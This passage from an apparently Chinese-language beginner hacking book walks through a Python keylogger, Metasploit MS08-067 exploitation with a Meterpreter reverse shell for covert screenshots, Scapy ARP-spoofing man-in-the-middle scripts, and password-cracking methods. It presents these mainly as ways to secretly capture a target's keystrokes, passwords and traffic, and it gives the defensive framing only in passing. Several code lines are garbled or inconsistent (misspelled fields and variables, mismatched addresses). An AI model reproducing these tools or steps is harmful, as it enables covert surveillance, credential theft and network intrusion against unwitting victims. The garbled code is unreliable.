1. 像我们上面讨论的那样访问 `Whois`，然后查看 `hostnames`（主机名）和 `IP addresses`（IP 地址）。看看它们在这个网站上是如何布局的，你也可以花时间核实上面的信息。

2. 现在是时候扫描你的一些内部主机了，这样你就可以看到用户能够访问系统。黑客可能来自网络内部，或者他们可以从不不留的员工那里获得一些登录凭据，因此确保每个人都根据他们在公司中的位置拥有正确的凭据。

3. 你接下来需要做的另一件事是检查系统的 `ping` 工具。有时第三方工具会帮助这一点，让你一次可以 ping 多个地址。`SuperScan` 是一个非常好的选择。如果你不确定你的 `gateway IP address`（网关 IP 地址）的名称，也可以访问 `www.whatismyip.com` 网站。

4. 最后，你需要通过所有开放的端口对你的系统进行外部扫描。你可以再次打开 `SuperScan`，然后通过 `Wireshark` 检查别人可能在网络上看到什么。

这些扫描将非常有帮助，因为它们将帮助我们通过在网上发送信号来找到自己的 `IP address`（IP 地址），以及如果黑客尝试进入你自己的系统，他们可能会看到什么。

你会发现，黑客在尝试访问你的系统时，会使用与我们刚刚执行相同的步骤来进入并窃取他们想要的信息。

进行这些扫描并定期检查的意义在于帮助发现黑客可能进入你系统的某些地方，然后关闭这些漏洞以帮助保持系统安全。

一旦你对黑客将如何进入网络有了更好的了解，学习黑客可能针对你网络的确切方式就会变得容易得多。

黑客最可能会选择看起来最简单的方法，同时让他们进入网络并对你及其他使用网络的人保持隐形。

这是你需要去的第一个地方，并添加更多保护，以便黑客无法进入。

这不是你做一次就可以一劳永逸的事。你需要定期进行这些扫描以获得你想要的结果。

随着你对网络的使用增加，向其中添加更多内容，随着时间推移使用的人也越来越多，你向世界发送的信息可能会发生，而黑客将一直关注这一点。

定期执行此类扫描将对你保护系统并阻挡那些不属于那里的黑客产生巨大影响。

# 第 6 章：如何创建你的键盘记录器

我们在本指南中多次提到了键盘记录器（keylogger）的概念。现在是时候学习更多关于如何为自己创建一个设备了。

我们将专注于 `Kali Linux` 操作系统和 `Python` 代码来帮助我们完成这项任务。

这是因为，虽然有很多很棒的语言可以满足你的某些需求，但 `Python` 将是我们最容易学习如何使用的语言之一，即使对于这个基础过程，它也非常简单。

一旦我们开始编写帮助我们创建键盘记录器的某些代码，你很快就会发现 `Python` 语言对于初学者来说是多么简单，以及为什么在处理这个过程（或你想处理的任何其他黑客任务）时，它通常是首选。

所以，我们将处理并学习如何创建的第一个种黑客技术之一就是键盘记录器。使用键盘记录器有很多好处，也有许多理由让你想要将这个键盘记录器安装到你的电脑上，甚至是另一台电脑上。

如果你选择将其安装在你正在使用的电脑上，很可能是为了帮助你学习如何进行黑客攻击，或者你想让它放在那里，以发现别人借用你电脑时在做什么。

例如，如果你把电脑借给别人，或者你有一个偶尔使用电脑的孩子，那么在系统中添加这个键盘记录器将允许你日后回溯并跟踪情况，查看系统上显示了什么等。

这只是我们能够采取的另一个步骤，以确保系统尽可能保持安全，即使它不在你手。。

另一方面，黑帽黑客通常会使用这些键盘记录器，以便他们进入目标系统并收集他们想要的信息。

这实际上是黑客用来获取他们所需宝贵信息的一种常用方法。这包括目标将访问哪些网站、登录该网站时使用的 `usernames` 和 `passwords` 等。


许多黑客在开始时往往面临着一个共同的问题，即收集所需物品非常困难，这在这个过程中会浪费大量时间，而且尝试字典攻击或暴力破解攻击在很多情况下都难以处理。

如果我们能够找到一种更简单的方法，同时在过程中获取所需的信息，那将要好得多。

当黑客能够将键盘记录器附加到他们想要的计算机上时（无论是在你自己的电脑上操作，还是在目标的电脑上操作），你会发现它允许你收集该计算机当时正在产生的所有按键。从长远来看，这将为你提供海量信息，因为你将获得目标在文档、电子邮件和搜索中输入的所有信息。

然而，如果你长期这样做，你会发现在所获取的数据中会出现一些模式。例如，你可能会注意到，某些模式会定期出现，或者某些词汇是成对组合的。当这种情况发生时，说明密码和用户名当时正在被使用。

现在，我们将重点关注键盘记录器本身，但你会发现单用它虽然可行，但通常不被认为是完成所有这些工作最高效的方法。它能为你提供大量信息，但你确实需要筛选并弄清楚这些单词和字母的含义，以及它们何时成为你可以使用的价值内容。除非你发现目标所有的时间都花在登录同一个账户上，否则你可能需要一些时间来学习哪些按键具有意义。

稍后，我们将查看一些可以在键盘记录器上添加的功能，以确保它在这个过程中尽可能高效。例如，我们可以在出现的短语中添加一些时间戳。这有助于我们看到哪些事情是在大致相同时间发生的，或者至少靠得很，而哪些事情发生的时间完全不在一起。

如果你开始从中注意到有几个单词在每天同一时间被彼此输入，这可能向我们展示这些是他们邮箱或其他账户的用户名和密码。这是你能够收集更多信息的方法之一，因为你拥有了上下文。但请记住，即使有了时间戳，仍然会有一些事情听天由，并且可能花费很长时间。

这就是为什么许多黑客还会配合屏幕截图保存器。我们将在下一章详细查看这一工具，以便我们也能根据自己的需求制作一个。这是一个很好的补充，因为它不仅向你发送大量关于黑客将要点击的按键信息，还能帮助你获取与这些信息配套的截图。这可以更容易弄清楚发生了什么。例如，如果你看到在上午 10:02，目标计算机进入了一个银行网站，你就可以回溯按键记录并查找 10:02 的时间戳，看看出现了哪些词。很可能在那个时候，用户名和密码被写了出来，现在黑客已经了开始所需的信息。

这个工具的好消息是，许多人根本不会设置强密码。他们设置这些密码是为了在不需要任何努力的情况下记住，而且这些密码通常是短的、易记的单词，或者与他们个人层面相关的东西。这对他们来说是一件坏事，但对于你尝试进入系统来说，却是一件大好事。

另一方面，当你需要保持网络安全时，你会发现这对你来说是一件好事。你会知道保护你信息的最佳方法是更改密码，使其尽可能强大且难以猜测，并定期更改它们。这可以帮助你真正确保黑客无法获取你的个人信息。键盘记录器是黑客获取所需信息的一种非常有效的方法，当它与其他几个你需要获取更多信息的步骤相结合时。让我们来看看如何结合 Python 和 Linux 操作系统来制作你自己的键盘记录器（无论你是在自己的电脑还是另一台电脑上使用），以及你如何有效地使用它记录目标计算机上所有的按键。

## 如何制作键盘记录器

现在我们已经花了一些时间讨论键盘记录器及其工作原理，以及发现它的某些优点，是时候开始工作了。我们将使用 `Python` 和 `Kali Linux` 系统，研究如何让这个键盘记录器满足我们的某些需求。

正如我们之前提到的，这个键盘记录器只是一个专业黑客可以设置的程序，帮助他们监控用户在计算机上运行的按键。这些信息将根据你设置的路径，存储在你计算机的某个文件中。例如，如果你想知道别人在你不在时借用并使用你的电脑在做什么，你可以开启这个键盘记录器并用它来监视他们。

当用户在那台计算机上时，他们可以随意输入并做他们常做的事。但所有这些信息都会秘密地存储在你计算机上的一个文件中，你稍后可以查看。用户完全不知道后台正在发生这种情况，但你可以在方便的时候检查他们是否访问了你可以信任的合法网站，或者是否有某些理由你不应该再次他们使用你的电脑。不过，许多黑客也喜欢在另一台计算机上使用它。这允许他们追踪目标并确定该目标访问了哪里。如果操作得当，并且我们使用了下一章将讨论的截图保存器，将使黑客收集他们想要的信息变得容易得多。这可能包括访问过的网站、用户名、在处使用的密码以及更多内容。

考虑到这些，现在是时候让我们实际开始工作创建我们自己的键盘记录器了。我们将查看下面的代码，研究我们如何借助 `Python` 编程语言来创建我们自己的键盘记录器：

对于这个特定的 `Python` 键盘记录器，你将使用 `pyxhook`，这意味着你需要安装 `python-xlib` 来获取让此功能运行所需的所有内容。如果你计算机上还没有 `Python` 以及 Linux 操作系统，你至少需要安装这个库才能开始。存储所有所需文件的良好位置是 `GitHub` 仓库，这样它们就都集中在一个地方并在一起。你可以只需通过执行以下命令来安装 `git`：

```bash
sudo apt-get install git
```

一旦你已经在计算机上安装了 `python-xlib` 和 `git` 并准备就绪，就是时候执行正确的命令来让键盘记录器运行起来了。你需要执行的代码和命令包括：

```
aman@vostro: ~$ git clone https://github.com/hiamandeep/py-keylogger.git
Cloning into ‘py-keylogger’…
```


```
remote: Counting objects: 23, done.
remote: Compressing objects: 100% (21/21), done
remote: Total 23 (delta 9), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (23/23), done.
Checking connectivity… done.
```

`aman@vostro: ~$` `cd py-kelogger/`

```bash
aman@vostro: ~$ cd py-kelogger/
```

## 键盘记录器的配置

现在需要注意的是，在 particular 程序并运行程序之前，你需要打开你的 `keylogger.py` 文件，然后将 `log_file` 变量设置为正确的位置，或者你希望用于日志文件的位置。

你应该给它一个绝对路径，这样它就确切知道应该去哪里。例如，你可以给它这样一个路径名称：

`/home/YourUsername/Desktop/file.log`

（使用这个时，你需要将 `YourUsername` 替换为你电脑的实际用户名，以便操作）。

现在，当我们进行到这一步时，你会发现键盘记录器已激活，它将开始扫描并记录使用你电脑的人或当他们使用你所针对的电脑时的按键记录。

请记住，你可以在日志文件区域搜索这些内容。要获取它们，你只需要按下反引号键（grave key），然后记录器就会停止记录，你就可以去日志文件查看内容了。

务必记住，在完成操作后你可以关闭键盘记录器。如果你不停止记录，该文件将会变得非常大，因为它还会记录你自己的按键。你只需点击一下反引号键，它就会准备好让你退出了。

不过有一一点，如果你在四处寻找并寻找反引号键，它与大多数键盘上的 `Esc` 键是同一个，所以尽管去使用它即可。

除了按照我们刚刚的方式完成所有设置外，你还希望确保键盘记录器每次电脑启动时都能运行并启动。这确保了它不会在用户关闭电脑的瞬间被关掉。

Linux 实际上让处理这类过程变得更加简单，为了确保你的键盘记录器在你需要时重启，只需输入以下代码：

```bash
python /home/aman/py-keylogger/keylogger.py
```

再次，我们必须记住，这里为命令创建一个文件路径是非常重要的，这样电脑就会知道它在哪里，并且知道你希望所有这些按键记录出现在哪里，以获得最佳结果。这实际上让在过程中存储所需的某些信息变得更加容易。

## 理解键盘记录器的工作原理

现在，到本章为止，我们一直关注于编写代码并将其设置为，以处理我们想要让程序执行的一些键盘记录工作。这是一个非常好的起点，如果你只想编写代码并将其放置在选定的电脑上，那么你就准备好了。

但作为一个想要变得更好并学习事物运行方式的优秀黑客，我们需要能够查看代码的各个部分并理解它们所有的含义。这正是我们在本节中将花时间做的事情。尽管如此，如果你能够学习你所编写代码的基础知识，这始终是最好的主意。这将帮助我们更好地理解刚刚所的操作，并使我们以后编写任何我们想要使用的代码都变得更容易。

考虑到这一点，我们将查看我们之前编写的代码中的某些部分，并看看它们的含义是什么。在我们处理的代码开头，我们将从开始导入一些编写代码所需的必要模块。在这种情况下，我们只使用了 `pyxhook` 模块来编写我们需要的代码，因此这是我们目前需要导入的唯一部分。如果以后你的某些代码需要，你可以在开头导入其他模块。

一旦我们准备好了这个模块，我们就开始为程序指定日志文件，以便按键记录可以发送到那里。日志文件将存储这些按键记录，因此我们需要确保选择一个合适的地方放置这些内容，以便你以后能够轻松地找到它们，而不会让其他人知道发生了什么。你会发现，如果无法在指定的路径创建此文件，它将自动为你创建一个。

接下来，是时候创建一个我们自己的新实例了，它将符合 `HookManager` 类。当创建完成后，你可以将按键变量设置给函数，这样它在按键被按下时就会开始执行过程。在这个实例中，你将使用 `OnKeyPress`，这是一个帮助我们在按键按下时执行操作的函数。当我们处理 `OnKeyPress` 时，这非常重要，因为它允许我们记录用户开始在键盘上打字的时刻。

他们决定按下哪个按钮并不真正重要，这很好，因为你永远不知道用户在按下你想要的按钮之前要等多久。只要你的用户开始在键盘上打字，你的键盘记录器就会开始执行你想要的工作。一旦你的目标进入他们的电脑并开始按下键盘上的按钮，日志文件将以追加（append）模式打开。这里显示的按键记录将被追加到日志文件中，然后你会发现文件中出现了一个换行符，这样所有的按键记录都会被放置在新的一行中。

如果用户在任何时候按下反引号键，日志文件就会知道应该关闭，会话也将结束。在大多数情况下，这不会有太大问题，除非用户觉得发生了什么，因为那不是一个常用的键。

## 实现

```python
import pyxhook

## 将此更改为你的日志文件路径
log_file = '/home/aman/Desktop/file.log'

# 每当按下按键时，都会调用此函数
def OnKeyPress(event):
    fob = open(log_file, 'a')
    fob.write(event.Key)
    fob.write('\n')
    if event.ASCII == 96: # 96 是反引号键的 ascii 值
        fob.close()
        new_hook.cancel()

## 实例化 HookManager 类
new_hook = pyxhook.HookManager()

## 监听所有按键记录
new_hook.KeyDown = OnKeyPress

## 钩住键盘
new_hook.HookKeyboard()

## 开始会话
new_hook.start()
```

这就是在你创建自己的键盘记录器时将需要使用的基础代码。如果你愿意，可以添加更多事件，例如按键记录发生的时间、事件的窗口名称、截图，甚至是在此期间鼠标在电脑上是如何运行的。这些都可以帮助让你更容易看到你所针对的电脑上发生了什么，但这个只是一个简单的键盘记录器，可以让你进行一些练习，并让你更容易学习在 Linux 中使用所需的某些代码。

键盘记录将是黑客能够根据自己的需求使用的一个棒工具，并确保我们能够从目标电脑上收集所有想要的信息。一些黑客会简单地将其用在个人电脑上，用以检查其他在电脑上在使用和做什么。


即使是黑客，也会选择配合键盘记录器工作，以确定他们的目标正在做什么，以及使用了哪些用户名和密码。

# 第 7 章：获取目标计算机的截图

在上一章中，我们花了一些时间研究了如何设置我们自己的键盘记录器，并确保它能够按照我们的预期运行。

虽然这在处理我们需要的某些信息时能告诉我们很多事情，但我们还必须考虑能够引入的某些额外功能，以获得我们想要的益处。

在本章中，我们将花一些时间研究如何借助截图来增强我们的键盘记录器。

这将提高你键盘记录器的某些工作效率。例如，当你只使用键盘记录器时，你会得到大量信息，但你可能无法看到其中的信息或模式。你会得到海量的单词，但可能很难知道这些信息源自何处。

相反，我们在情况下直接添加截图会让我们高效得多。这样一来，我们得到的就不仅仅是键盘记录器显示的单词和句子，还可以对用户访问的内容进行截图，然后将它们与从键盘记录器获取的单词放在一起。

当你将这两者结合时，你就能以快速高效的方式获得你想要的结果。你会发现，使用截图可以使入侵用户计算机的整个过程简单得多。你可以设置程序，让它定期对你的目标屏幕进行拍照。你不希望这种情况持续发生，但如果你将其按固定的间隔进行设置，你会发现这可以帮助你更多地了解用户访问的不同地方，然后将其与从键盘记录器获取的某些信息进行对比。

例如，通过键盘记录器和截图，当你注意到某人在屏幕上输入了看起来像用户名或密码的内容时，你就可以对比单词上的时间戳和我们拥有的截图上的时间戳，然后确定这些内容的去向。这节省了猜测他们当时在访问哪个网站的时间。

在目标计算机上设置某些截图可以很简单，并不一定那么困难，只要你选择了正确的工具，并部署了正确的代码。为了帮助你设置截图并确保这一切都能为你顺利工作，有一些重要的步骤需要遵循。

## 如何设置截图

现在我们准备好设置一些截图，以便它们向我们展示目标正在做什么，并带有正确的时间戳将这些信息发送到你的计算机。我们实现这一点需要使用的步骤包括：

### 步骤 1：设置攻击

首先，我们需要确保花时间选择我们想要在此处使用的漏洞。在处理 Windows 程序时，我们可以考虑的一个很好的漏洞是 `MS08_067-netapi`。使用下面的代码，很容易让这个漏洞在你的设备上显示：

```
msf > use exploit/windows/smb/ms08_067_netapi
```

一旦我们将其添加到系统中，就可以对该过程采取几个步骤，以进一步简化我们正在使用的屏幕捕获。Metasploit 的 `Meterpreter` 负载也可以让我们更容易处理此工作。为了确保我们能够将其设置并加载到我们之前的漏洞中，以下代码是必要的：

```
msf> (ms08_067_netapi) set payload windows/meterpreter/reverse_tcp
```

接下来的工作步骤包括我们设置需要使用的选项。开始这一工作的良好方法是使用 `show options` 命令。这是一个很好用的命令，因为可以让我们看到可选的选项，包括必要的选项和我们可以使用的可用选项。这取决于我们想要运行的攻击。为了确保 `show options` 命令在我们的系统上运行，我们需要使用下面的代码：

```
msf > (ms08_067_netapi) show options
```

当我们到达这一步时，你会看到受害者（即 `RHOST`）和攻击者（在这种情况下就是你）将是 `LHOST` IP 地址。当我们以后接管你的某一个目标系统时，了解这些信息是非常重要的。因为 IP 地址将是我们用来直接进入目标系统。我们现在需要关注并使用两个代码来显示 IP 地址和目标 IP 地址，以便让接管另一个系统变得更容易：

```
msf > (ms08_067_netapi) set RHOST 192.168.1.108
msf > (ms08_067_netapi) set LHOST 192.168.1.109
```

现在，如果你正确地完成了整个过程，你应该能够漏洞到另一台计算机并将 `Meterpreter` 放置在上面。目标计算机现在处于你的控制之下，你可以通过以下步骤获取你想要的截图：

### 步骤：获取你想要的截图

当我们到达这一步时，开始设置你想要实现的截图非常重要。但在真正开始之前，我们需要花一些时间确定实现此所需的 ID 或 `PID`。找到这个 ID 所需使用的代码包括：

```
meterpreter > getpid
```

完成后，接下来应该会显示一个屏幕，其中应包含你想要攻击的计算机用户的 `PID`。对于这种情况，我们将假定我们的 `PID` 是 `932`，但它会根据目标计算机此时向你提供的信息而变化。

现在我们已经收集到了这个数字，就可以通过获取所有具有相同 `PID` 的进程列表来检查这是哪个进程。要检查这一点，我们将使用以下代码：

```
meterpreter > ps
```

当你查看 `PID` `932` 或对应你目标特定系统的 PID 时，你会发现它对应于进程进程 `svrhost.exe`。由于你将使用一个具有活动桌面权限的进程，在这种情况下，你已经准备就绪了。如果你没有正确的权限，可能需要进行一些迁移以获得活动桌面权限。

现在，你只需要激活 `Meterpreter` 内置的脚本。你需要的脚本被称为 `espia`。要做到这一点，你只需要输入：

```
meterpreter > use espia
```

运行此脚本将把 `espia` 程序安装到你目标的计算机上。现在你就可以获取你想要的截图了。要获取目标计算机的单张截图，你只需要输入代码：

```
meterpreter > screengrab
```

当你输入这段代码时，你编写的 `espia` 脚本基本上会对目标计算机当前正在的操作进行截图，并将其保存到根用户目录中。然后你会在你的计算机上看到该副本了。


你将能够观察到发生的情况，如果你操作得当，目标计算机将无法发现你截取了屏幕，也不会发现你不被允许出现在那里。

你可以跟踪发生的情况，并根据自己的意愿截取尽可能多的不同截图。

当我们使用此选项时，你需要根据需要多次执行最后一条命令。

你可能希望按固定的时间间隔设置它，或者设置让它在一天中的某些特定时间段运行。

你需要决定想要获取多少次信息，并根据目标设备的使用情况，判断何时是执行这些操作最有价值的时间。

如果你以正确的方式设置了它，并结合我们能够获取的一些键盘记录器信息，你就可以将获取到的信息与截图进行对比，然后利用这些信息进入你想要的账户。

完成操作后，代码应该保持原样，但如果最终出现问题，你可以再次按照我们这里的步骤进行，并再次告诉程序希望如何实现这一切。

在进行黑客攻击时对目标计算机进行一些截图，确实可以进一步提高你作为黑客的效率。

虽然你会发现单用键盘记录器时可以获取大量信息，但在此过程中也会增加一些问题，而且效率不会像我们希望的那样高。

这就是为什么我们要把之前讨论过的截图也加入进来。

当我们将截图和键盘记录器结合时，将获取到大量信息，这将确保你不仅能够查出用户名和密码，还能确定它们属于何，以及用户在使用这些信息时会访问哪些网站。

在本章中，我们介绍并学习了一些可以使用的最佳代码，用于创建自己的截图工具并将其添加到键盘记录器中。

# 第 8 章：如何使用 Linux 创建中间人攻击

中间人攻击（Man in the Middle Attack）是黑客获取有关你网络信息的的一种非常有力的方法。

这种攻击可以是主动的，也可以是被动的。

有时，它仅包括在网络上的个人进行观察，看看他们能在该系统中发现什么。

而在其他时候，它更具主动性，黑客会主动入侵网络并窃取其中的个人信息。

无论哪种方式，这对于你的网络安全都是危险的。

在黑客进入你的系统一段时间后，他们可能会利用这种中间人攻击。

有些黑客会认为，只要进入系统获取数据访问并对公司进行监听就足够了。但也有人倾向于采用更主动的方法，以获得他们想要的对网络的控制权。

这些就是中间人攻击。

你会发现，当黑客花费时间进行所谓的 `ARP 欺骗`（ARP spoofing）时，其中一种中间人攻击就是可能的。

简单来说，这就是当黑客能够向他们所攻入的网络发送虚假的 `ARP` 消息。

当这种攻击成功时，这些信息将允许黑客将他们使用的计算机 `MAC address` 与被允许访问网络的某个人的 `IP address` 关联。

一旦你能够将所有这些关联起来，黑客就可以接收用户通过其 `IP address` 发送的所有数据。

由于黑客可以访问网络上的数据以及接收到的任何信息，当到达这一步时，黑客还能做其他几件事，包括：

### 1. 会话劫持 (Session hijack)
黑客能够做的第一件事之一是利用伪造的 `ARP` 来窃取会话 ID，这样他们以后就可以利用这些凭据进入系统并执行他们想做的事。

### 2. DoS 攻击 (DoS attack)
这可以与之前提到的 `ARP 欺骗` 同时进行。它将帮助将网络 `IP address` 的名称映射到黑客的 `MAC address`。然后，发给黑客的所有数据将以足够的速度发送到目标计算机，导致系统过载，使其无法再次响应。

### 3. 中间人攻击 (Man in the middle attack)
在这种攻击中，黑客将成为网络的一部分，但没有人能发现他们的。黑客能够修改并拦截目标与网络其它个人之间传输的所有信息。然后，信息甚至可以被修改并发送回系统，通信双方都不会知道黑客曾经在场或进行过更改。

现在我们对这种中间人攻击有了更多的了解，也知道了为什么黑客可能会使用它，现在是时候查看一些为了执行这种欺骗的操作，并借助 Python 语言和 Kali Linux 开始编写其中一种中间人攻击程序来完成工作了：

对于这一个，我们将使用 `Scapy`。

我们的目标和黑客计算机位于同一个 `10.0.0.0/24` 网络中。

黑客计算机的 `IP address` 为 `10.0.0.231`，其 `MAC address` 为 `00:14:38:00:0:01`。

对于目标计算机，我们将使用的 `IP address` 为 `10.0.0.209`，其 `MAC address` 为 `00:19:56:00:00:01`。

所以在这里我们将通过伪造 `ARP 数据包` 来开始这种攻击以欺骗受害者，我们将使用 `Scapy` 模块来实现。

```
>>>arpFake = ARP()
>>>arpFake.op=2
>>>arpFake.psrc="10.0.0.1"
>>>arpFake.pdst="10.0.0.209"
>>>arpFake.hwdst="00:14:38:00:00:02"
>>>arpFake.show()
```

###
[ARP]###
hwtype=0x1
ptype=0x800
hwlen=6
plen=4
op= is-at
hwsrc= 00:14:28:00:00:01
psrc= 10.0.0.1
hwdst= 00:14:38:00:00:02
pdst= 10.0.0.209
```

如果你查看目标计算机的 `ARP table`，在数据包发送之前它看起来如下：

```
user@victim-PC:/# arp-a
?(10.0.0.1) at 00:19:56:00:00:001 [ether] on eth 1
attacker-P.local (10.0.0.231) at 00:14:38:00:00:001 [ether] eth 1
```

一旦你借助 `Scapy` 并使用 `send(arpFake)` 命令发送了这个数据包，目标机的 `ARP table` 将如下所示：

```
user@victim-PC:/# arp-a
?(10.0.0.1) at 00:14:38:00:00:01 [ether] eth 1
Attacker-PC.local (10.0.0.241) at 00:14:38:00:00:01 [ether] eth 1
```

现在，这是我们开始处理中间人攻击的好时机。

但这里将会出现一个大问题。

主要问题是，默认网关 (`default gateway`) 最终会发送带有正确 `MAC address` 的 `ARP`。

这意味着在某个时刻，目标将不再被黑客欺骗，通信将不再像以前那样发送到黑客那里。


这里的好消息是，有一个解决方案可以帮助解决这个问题，并让一切回到正轨。这个解决方案将是黑客对通信进行嗅探的地方，无论默认网关将 ARP 回复发送到哪里，黑客将利用它来帮助伪造目标。

我们能够实现这一点的代码包括：

```python
#!/usr/bin/python

## Import scapy

from scapy.all import*

## Setting variable

attIP="10.0.0.231"
attMAC="00:14:38:00:00:01"

vicIP="10.0.0.209"
vicMAC="00:14:38:00:00:02"

dgwIP="10.0.0.1"

dgwMAC="00:19:56:00:00:01"

## Forge the ARP packet

arpFake = ARP()
arpFake.or=2
arpFake.psr=dgwIP
arpFake.pdst=vicIP
arpFake.hwdst=vicMAC

## While loop to send ARP

## when the cache is not spoofed

while True:
    # Send the ARP replies
    send(arpFake)
    print "ARP sent"
    #Wait for an ARP replies from the default GW
    sniff(filter="arp and host 10.0.0.1", count=1)
```

为了帮助我们确保此脚本以正确的方式运行，我们必须在这里停下来，并确保它被保存为 Python 使用的文件之一。

一旦我们花时间把它们全部保存，你将成为该文件的管理员，并且可以在拥有相应权限的情况下随时运行该文件。

现在，我们可以继续该过程的下一个部分了。此时，从目标发往我们正在使用的网络或我们设置的网络之外的任何网络的任何通信，在通过其默认网关后，都应该直接发送给黑客。

但这里仍然有一个我们需要处理的问题。

虽然在这种情况下，黑客能够看到目标与他们想要通信的任何人之间传输的一些信息，但我们会发现我们完全无法阻止这些信息。

信息仍然直接发送给预期的接收者，黑客无法对其进行任何更改。

这是由于我们完全还没有对该网关中的 ARP 表进行任何伪造导致的。

我们需要确保此发生并给予黑客所需的更多控制权的代码如下：

```python
#!/usr/bin/python

## Import scapy

from scapy.all import*

## Setting variables

attIP="10.0.0.231"
attMAC="00:14:38:00:00:01"
vicIP="10.0.0.209"
dgwIP="10.0.0.1"
dgwMAC="00:19:56:00:00:01"

## Forge the ARP packet for the victim
arpFakeVic = ARP()
arpFakeVic.op=2
arpFakeVic.psr=dgwIP
arpFakeVic.pdst=vicIP
arpFakeVic.hwdst=vicMAC

## Forge the ARP packet for the default GQ
arpFakeDGW = ARP()
arpFakeDGW.0p-=2
arpFakeDGW.psrc=vitIP
arpFakeDGW.pdst=dgwIP
arpFakeDGW.hwdst=dgwMAC

## While loop to send ARP

## when the cache is not spoofed

while True:
    # Send the ARP replies
    send(arpFakeVic)
    send(arpFakeDGW)
    print "ARP sent"
    # Wait for an ARP replies from the default GQ
    Sniff(filter="arp and host 10.0.0.1 or host 10.0.0.290" count=1)
```

现在 ARP 欺骗已经完成。

如果你愿意，可以浏览目标计算机的网站，但你可能会发现连接被拦截了。

这是因为除非 IP 地址与目标地址相同，否则大多数计算机都不会发送数据包，但我们稍后可以详细讨论这一点。

初看起来这看起来代码很多，但请记住，它将帮助我们设置一种非常剧烈的攻击。

它允许我们进入想要的网络，获得该访问权限，直接进入正在发生的通信中间，并使我们不仅可以查看这些通信，而且在它们到达应到达的人手中对其进行更改和调整变得更容易。

在这一切准备就绪后，你已经完成了你的第一次中间人攻击（man-in-the-middle attack）。

当你想要欺骗用户的网络以便进入系统并环顾四周，甚至帮助你窃取那里的通信并将其用于自己的需求时，这是一种非常有用的攻击类型。

如果你最终完成了这一过程并在你所做的事情上成功，你将成为计算机网络的一部分，可以在没有人察觉你存在的情况下，从该网络获取你想要的所有信息。

各种黑客都喜欢使用这种方法，因为这为他们在途中完成一些自己的攻击提供了各种可能性。

# 第 9 章：如何破解密码并创建我们自己的密码破解器

我们能够考虑的另一项工作是如何破解密码。

在我们之前的书中，我们花了一些时间讨论了密码有多重要，以及面对试图进入我们网络的黑客时，密码通常是我们拥有的第一道防线。

如果我们选择一个太简单且易于处理的密码，那么我们在过程中也会遇到一些麻烦。

但如果我们选择一个独特且复杂的密码，那么黑客在想要时进入网络就会困难得多。

密码攻击通常是黑客尝试对你使用的首要攻击之一。

如果黑客有机会获得你的一些密码，这将使他们能够更容易从系统中收集到他们想要的信息。

密码和其他类似的机密信息将是你网络安全中最薄弱的环节之一，因为它们依赖大量的保密性才能运作并成功。

如果你告诉别人关于密码的信息，将密码留放在容易发现的地方，或者选择一个弱密码，就很难保持网络安全。

黑客还可以使用几种方法来获取你正在使用的密码。

这就是为什么在涉及到系统安全时，密码被视为最薄弱的环节之一。

这也是为什么许多公司在拥有非常敏感信息时会采取某种双重保护。

这有助于增加另一层保护，并使保持所有信息安全更容易。

这里出现的好消息是，有一些工具可以使用，确保你的网络免受那些可能想要利用它并为了自利的人的影响。

这就是为什么我们将在本中花时间研究黑客如何破解密码，以及你可以尽可能保持密码安全的某些方法。

## 如何如何破解密码？

我们在这里需要查看的第一点是如何破解目标的密码。

如果黑客发现社会工程无法达到他们想要收集密码的效果，他们还有其他选项，可以在没有物理接触计算机的情况下实现这一目标。

可供我们破解这些密码的其他一些工具包括 `RainbowCrack`、`John the Ripper` 和 `Cain and Abel` 等。

虽然有这些工具以及其他工具可以用于破解你想要的密码，但你必须对它们进行仔细观察，因为某些工具要求你实际上位于目标系统上，才能按照你所工作的方式有效地使用它们，所以如果你想进行远程工作，它们会有点麻烦。


一旦你能够获得计算机的物理访问权限，当你选择上述工具中的一种时，那里所包含的所有信息，以及那些设置了密码以保持隐藏的信息，都将属于你。

## 密码加密的重要性

现在，我们需要快速了解一下什么是密码加密的内容。

我们还将查看其他一些黑客方法，这些方法可以获取并使用密码，即使它已经经过了加密。

一旦你在你的账户中创建了新密码，它将通过一个加密算法。

这将为我们提供一个可见的难以阅读且经过加密的字符串。

当然，该算法的设定使得我们无法反转现有的哈希值（hashes），这会保持密码的安全，这也是他人无法进入系统并直接看到你所设置的密码的主要原因。

此外，每当你想要破解 Linux 系统上的密码时，密码破解过程中都会增加第二层难度。

Linux 能够通过引入密码随机化的概念来增加这种新层的安全防护。

这是通过在密码中添加 `salt`（盐值），有时还会添加另一个值来实现的，这改变了密码的唯一性，使得两个用户即使选择了相同的密码，得到的哈希值也不会相同。

当然，你会有一些工具可以尝试使用，用来破解或恢复某些丢失的密码。

你可以选择的选项包括：

1. **字典攻击**：通过字典攻击，程序将尝试字典中找到的单词，然后将这些单词与数据库或系统中的密码的哈希值进行比对。
当密码较弱或仅仅是使用了替代的拼写方式时，这种方法将有效。例如编写 `pa$$word` 而不是 `password`。
如果你想双重检查网络上的所有用户是否选择了强密码，那么你就可以尝试这种攻击，以便做出正确的更改。

2. **暴力破解攻击**：这些方法可以帮助我们破解几乎任何种需要的密码，因为它可以产生许多字符、数字和字母的组合，直到找到正确的密码为止。
但请记住，这种方法非常缓慢，需要大量时间，而且如果用户使用了非常强的密码并定期更改，那么它可能会失败。
由于输入各种组合需要花费大量时间，这通常是黑客不会愿意浪费时间去做的事情。

3. **彩表攻击**：这些是我们用来破解系统中发现的某些哈希加密密码的工具，当使用得当时是可以成功的。使用此类工具的速度比我们之前提到的另外两种选项要快。
我们看到的最大的缺点是，只要密码是 14 个字符更少，它就能破解任何密码。
如果密码更长，你就会遇到麻烦。
但这也是保护自己免受此类攻击的一种良好方法。

当我们对密码进行加密时，黑客仍有可能使用上述某些工具侵入并获取他们想要的信息。

但在大多数情况下，你会发现使用这种加密、使用安全网络并确保密码强大且难以猜中，将是确保黑客完全无法进入你的个人网络的最佳方法之一。

## 破解密码的其他方法

获取你所需的密码的最佳方法之一，是确保你能够访问想要使用的确切系统。

当然，由于我们正在进行黑客活动，这可能无法，你可能需要求助于 B 计划来实现它。

如果你选择不使用我们上面提到的一些破解工具，我们还可以使用一些其他技术，这些包括：

1. **按键记录（Keystroke logging）**：我们在上面查看了如何创建一个按键记录器，你会发现，如果你能将其安装到目标系统中，它是破解该目标某个密码的一种高效且简单的方法。
这是因为按键记录器会在目标计算机上安装一种记录设备，然后开始跟踪他们使用的所有按键，最后将这些信息发送给你。

2. **寻找一些较弱的密码存储选项**：有很多不安全的应用程序尝试将密码存储在本地位置。这会让黑客非常而费力地收集到这些信息。
一旦你获得了对目标计算机的物理访问权限，你会发现只需快速搜索即可获取这些密码。

